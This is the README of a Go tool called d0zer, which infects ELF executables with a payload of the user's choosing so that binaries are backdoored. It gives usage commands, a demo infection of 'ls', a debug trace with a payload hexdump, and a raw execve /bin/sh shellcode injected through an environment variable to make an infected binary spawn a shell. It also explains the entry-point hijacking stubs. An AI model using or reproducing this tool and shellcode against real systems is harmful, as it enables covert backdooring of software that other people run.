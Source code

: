 # d0zer
Elf binary infector written in Golang. It can be used for infecting executables of type ET_DYN and ET_EXEC with a payload of your creation. Utilizing the classic elf text segment padding algorithm by Silvio Cesar, your payload (parasite) will run before native functionality of the binary effectively backooring the binary.

d0zer currently allows for up to a page size payload (4096 bytes). It is capable of infecting both x86_32 and x86_64  elf executable binaries executables.

# Motivation
My motivations are quite simple, I like doing interesting things with the ELFs and binary infection of a target requires a decent amount of overhead knowledge and skill as a prerequisite to perform it (TO ME), so I set out to learn from papers, books and specs from the past (see references), throwed Golang in the middle for increased difficulty and here I am.

# build

<pre> 
[sad0p@Arch-Deliberate d0zer]$ go version
go version go1.16.3 gccgo (GCC) 11.1.0 linux/amd64
[sad0p@Arch-Deliberate d0zer]$ go build d0zer.go epiloguejmp.go 
</pre>

# Usage

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer --help
Usage of ./d0zer:
  -debug
    	see debug output (generated payload, modifications, etc)
  -noPreserve
    	prevents d0zer from prepending its register preservation routine to your payload
  -noRestoration
    	prevents d0zer from appending register restoration routine to your payload
  -noRetOEP
    	prevents d0zer from appending ret-to-OEP (continue execution after payload) to payload
  -payloadBin string
    	path to binary containing payload
  -payloadEnv string
    	name of the environmental variable holding the payload
  -target string
    	path to binary targetted for infection
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Basic demo (benign) infection can be accomplished with `./dozer -target [path-to-target]`.

<pre> 
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
hello -- this is a non destructive payloadd0zer	     epiloguejmp.go  jmp-to-oep32      jmp-to-oep.o		  non-destructive-payload32.asm  non-destructive-payload64.o  shellcode.c
d0zer.go     experimental    jmp-to-oep32.asm  LICENSE			  non-destructive-payload32.o	 output			      test
elf64	     genpayload.go   jmp-to-oep32.o    non-destructive-payload	  non-destructive-payload64	 README.md		      test.go
epiloguejmp  jmp-to-oep      jmp-to-oep.asm    non-destructive-payload32  non-destructive-payload64.asm  shellcode
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Supplying `-debug` allows you to see each step of the infection algorithm at work aswell as a hexdump of the payload as it will be in the binary. 

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -debug
[+] Modified entry point from 0x5b20 -> 0x173d1
[+] Text segment starts @ 0x4000
[+] Text segment ends @ 0x173d1
[+] Payload size pre-epilogue 0x5c
[+] Payload size post-epilogue 0x90
------------------PAYLOAD----------------------------
00000000  50 51 53 52 56 57 55 54  41 50 41 51 41 52 41 53  |PQSRVWUTAPAQARAS|
00000010  41 54 41 55 41 56 41 57  eb 00 e8 2b 00 00 00 68  |ATAUAVAW...+...h|
00000020  65 6c 6c 6f 20 2d 2d 20  74 68 69 73 20 69 73 20  |ello -- this is |
00000030  61 20 6e 6f 6e 20 64 65  73 74 72 75 63 74 69 76  |a non destructiv|
00000040  65 20 70 61 79 6c 6f 61  64 0a b8 01 00 00 00 bf  |e payload.......|
00000050  01 00 00 00 5e ba 2a 00  00 00 0f 05 41 5f 41 5e  |....^.*.....A_A^|
00000060  41 5d 41 5c 41 5b 41 5a  41 59 41 58 5c 5d 5f 5e  |A]A\A[AZAYAX\]_^|
00000070  5a 5b 59 58 e8 12 00 00  00 48 83 e8 79 48 2d d1  |Z[YX.....H..yH-.|
00000080  73 01 00 48 05 20 5b 00  00 ff e0 48 8b 04 24 c3  |s..H. [....H..$.|
--------------------END------------------------------
[+] Generated and appended position independent return 2 OEP stub to payload
[+] Increased text segment p_filesz and p_memsz by 144 (length of payload)
[+] Adjusting segments after text segment file offsets by 0x1000
Inceasing pHeader @ index 4 by 0x1000
Inceasing pHeader @ index 5 by 0x1000
Inceasing pHeader @ index 6 by 0x1000
Inceasing pHeader @ index 8 by 0x1000
Inceasing pHeader @ index 10 by 0x1000
[+] Increasing section header addresses if they come after text segment
[+] Extending section header entry for text section by payload len.
[+] (15) Updating sections past text section @ addr 0x18000
[+] (16) Updating sections past text section @ addr 0x1d324
[+] (17) Updating sections past text section @ addr 0x1dc78
[+] (18) Updating sections past text section @ addr 0x21fd0
[+] (19) Updating sections past text section @ addr 0x21fd8
[+] (20) Updating sections past text section @ addr 0x21fe0
[+] (21) Updating sections past text section @ addr 0x22a58
[+] (22) Updating sections past text section @ addr 0x22c58
[+] (23) Updating sections past text section @ addr 0x23000
[+] (24) Updating sections past text section @ addr 0x23280
[+] (25) Updating sections past text section @ addr 0x0
[+] (26) Updating sections past text section @ addr 0x0
[+] writing payload into the binary
</pre>

A custom payload can be injected into the binary with the `-payloadEnv` flag. Below I inject a basic execve /bin/sh shellcode into the ls command as an example.

<pre>
[sad0p@Arch-Deliberate d0zer]$ export DOZEREGG="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadEnv DOZEREGG
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
sh-5.1$ 
</pre>

The `-payloadBin` flag is currently not implemented, it would allow you to supply a PIE (binary), where the contents of the text
segments would serve as the payload.

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadBin ./non-destructive-payload64
Getting payload from an ELF binary .text segment is not yet supported
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

# Advance Usage

In the event you don't like the routines d0zer add to your code the following flags can be utilized, however your payload
should handle any consequences that come comes from removing them.

The `-noPreserve` flag removes the general purpose register preservation routine. For x86_32 targets this is accomplished via a `pushad` instruction. For x86_64 targets, all general purpose registers are manually pushed onto the stack as the the `pushad` instruction in x86_64 is not valid. The overall purpose of this routine is to preserve register states after execution of your payload, when control is handed back to libc runtime routine (OEP) it expects certain register values in order to properly execute. In some contexts, I was able to simply preserve the `RDX` register and no crashes occured, in others (using shellcode I downloaded) preserving `RDX` was not enough. So in order to stay "portable", I thought it was wise to save all state as I wasn't completely sure which registers were needed currently or in the future.

The `-noRestoration` flag removes the restoration routine, which is the opposite of the preservation routine, it performs a `popa` for x86_32 targets and a manual popping of each general purpose register from the stack.

The `-noRetOEP` flag removes the "return to original entry point" routine. This stub enables portability across pie (ET_DYN) and non-pie (ET_EXEC) elf executables. The code extracts the randomized base address by capturing the current instuction pointer value in accumulator register. It then substracts the payload length from the accumulator (+ 5 bytes for the relative call instruction), then subtracts the entry point of payload. Finally it adds the offset of the binaries OEP to then perform a `jmp rax` or `jmp eax` (for x86_32) instruction to start executing native/non-parasitic code. If you intend on handling this your self then your code must handle proper exiting/continuation of the binary to avoid SIGSEGV.

All preservation, restoration and ret-2-oep shellcode are heavily commented for clarity. Restoration and preservation stubs can be found at the top of the `d0zer.go` source file. The `ret2OEP` routine can be found in `epilogue.go`.

# Payload considerations

It's worth noting that code being injected (payload/parasite) should be position independent. Additionally with in your payload anything pushed onto the stack should be popped off if you choose to use restoration and preservations stubs (which d0zer prepends & appends by default). Due to the stacks LIFO structure, should anything (except the register values pushed in the preservation stub)be on there after you've executed your payload you run the risk of getting a SIGSEGV in the libc runtime routine.

# References
<pre>
Linux Binary Analysis by Ryan Oneil (Elfmaster), see virus technology chapter.

LPV (a unix virus) written in C utilizing the same algorithm as d0zer written by Elfmaster.
https://bitlackeys.org/projects/lpv.c

Unix ELF parasites and viruses - by Silvio Cesar
https://vx-underground.org/archive/VxHeaven/lib/vsc01.html

Return To Original Entry Point Despite PIE - by s0lden
https://tmpout.sh/1/11.html
</pre>
